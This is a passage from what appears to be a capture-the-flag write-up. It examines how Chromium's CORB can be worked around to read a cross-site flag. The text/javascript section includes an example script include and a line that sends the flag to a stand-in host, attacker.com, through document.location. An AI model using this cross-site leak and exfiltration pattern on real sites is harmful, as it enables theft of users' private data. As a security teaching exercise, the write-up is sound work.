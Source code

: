 #### What CORB allows us to do

The next step is to research about CORB and what mime-types it allows, what kind of elements can request cross-site resources and these kind of stuff. Basically, we have to dig into online documents and the Chromium source code. 

While solving the challenge, I didn't know that CORB is documented by Google, so I started with the mime-types and elements I knew about.

## text/javascript

The first thing that came to my mind was creating a valid javascript that holds the flag in itself.

The response from `http://challenge.com/?p=2f2f` is a valid javascript code.

```js
//uiuctf{FAKEFLAG}Enjoy your flag!
```

But the problem was that I couldn't find any way to read the Javascript comments. I tried to come up with a trick or something, but I failed. I gave up on it after about 20 minutes of trying.

To understand the challenge better, I'm going to write an example exploit If "Enjoy your flag!" was not in the response. If it was not at the end of the response, we could solve this by constructing the following code.

```js
class uiuctf{FAKEFLAG}
```

The `toString()` method of classes returns the source code of the class.

```js
class test{
    whatisthis
}
console.log(test.toString())
/*
Output: 
class test{
    whatisthis
}
*/
```

And we could exfiltrate the flag with the following code.

```html
<script src="http://localhost:1337/?p=636c61737320"></script>
<script>
    document.location = 'http://attacker.com/?flag='+uiuctf.toString()) 
    // attacker.com receives a request with the flag in the query params
</script>
```

## text/css
